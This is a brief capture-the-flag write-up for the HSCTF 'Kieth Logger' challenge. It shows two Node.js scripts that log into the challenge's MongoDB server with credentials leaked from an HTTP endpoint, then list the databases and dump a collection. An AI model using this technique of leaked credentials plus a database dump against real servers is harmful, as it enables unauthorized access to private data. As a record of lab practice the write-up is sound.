 # Kieth Logger
```javascript
var MongoClient = require('mongodb').MongoClient;
var url = "mongodb://admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017/database?authSource=admin";

MongoClient.connect(url, function(err, db) {
  if (err) throw err;
  var dbo = db.db("database");
  dbo.collection("collection").find({}, function(err, result) {
    if (err) throw err;
    result.toArray(function(e,a){console.log(a)})
    db.close();
  });
})
```

This one's super easy. You build the monbodb URL. We get the username and password from one of the endpoints on the http server
Then, we built the URL. When I did it the first time, it didn't work. Turns out, you have to have a little queryString type deal and set the auth source to admin

I don't have the script I used to list the available databases because I did it using the higher-level mongoose mongodb driver. 

I ended up having to re-write the script with the mongodb driver because I wasn't able to access some of the lower level calls, but I was still able to get a listing of the available databases and collections (in order to know what values to look for, and what database to select)

Here's the old script:

```javascript
const mongoose=require("mongoose")
const Admin = mongoose.mongo.Admin;
const conn=mongoose.createConnection("mongodb://admin:keithkeithkeith@keith-logger-mongodb.web.chal.hsctf.com:27017/database?authSource=admin")

conn.on("open",function(){
    new Admin(conn.db).listDatabases(function(err, result) {
//        console.log('listDatabases succeeded');
        // database list stored in result.databases
       // console.log(result.databases);
    });

   //conn.db.listCollections().toArray(function(e,arr){console.log(arr)})
   conn.db.collection("collection").find({},function(e,res){console.log(res)})
})```
this second one is more or less cut-and-pasted from stackoverflow
